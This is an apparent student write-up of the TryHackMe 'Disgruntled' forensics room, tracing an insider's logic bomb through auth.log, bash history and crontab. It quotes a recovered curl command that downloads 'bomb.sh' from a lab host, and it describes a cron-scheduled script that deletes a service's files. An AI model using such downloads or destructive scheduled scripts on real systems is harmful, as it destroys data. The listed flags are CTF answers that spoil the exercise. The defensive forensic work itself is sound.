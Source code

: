 # FORENSICS CHALLENGE
## TRYHACKME CTF ROOM
*https://tryhackme.com/r/room/disgruntled*

### Description
Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

- Connect to the VM 

### Walkthrough

Lets have a poke around at the privileged commands that were run.
- cd var/log
- ls

Read the file and filter the search
- cat /var/log/auth.log | grep install

![alt text](auth.png)

#### Flag 1 : /usr/bin/apt install dokuwiki
#### Flag 2 : /home/cybert

So we're told that a user was created after this previous package was implemented. We just need to adjust the grep filter search to 'adduser'

![alt text](adduser.png)

#### Flag 3 : it-admin

Now for the next flag we are told *A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)*
- Again just adjust the grep filter : cat auth.log | grep visudo
####  Flag 4 : seen in image

![alt text](time.png)

*A script file was opened using the "vi" text editor. What is the name of this file?*
- Adjust the grep filter : cat auth.log | grep vi
####  Flag 5 : seen in image

![alt text](vi.png)

### clue
That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

Lets go to the directory of the it-admin account we discovered earlier
- cd /home/it-admin
- ls (returns no results)
- ls -la (returns the hidden results we need)

Now we can read the contents of the bash history file
- cat .bash_history

![alt text](bash.png)

#### Flag 6 : curl 10.10.158.38:8080/bomb.sh --output bomb.sh

Now in the image above we can see that the user moved the file to /etc/crontab so lets read the contents
- cat /etc/crontab

![alt text](crontab.png)

#### Flag 7 : bin/os-update.sh

So we need to know when this file was last modified
- ls -lt /bin/os-update.sh 
Now this didn't show me the exact time stamp so we need to make our command more specific
- ls -lt --time-style=+'%Y-%m-%d %H:%M' /bin/os-update.sh

![alt text](time2.png)

#### Flag 8 : Dec 28 06:29

Now to find the next flag we need to read the /bin/os-update.sh file
- cat /bin/os-update.sh

![alt text](txt.png)

#### Flag 8 : goodbye.txt

We have already found the location of the script and the timer to execute previously in /etc/crontab file. (crontab.png)
- We need to convert the scedule using an online translator https://crontab.guru/
- Just input 0 8  * * * into the translator and we get the time and flag

![alt text](schedule.png)

#### Flag 8 : 08:00 AM

## Conclusion

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.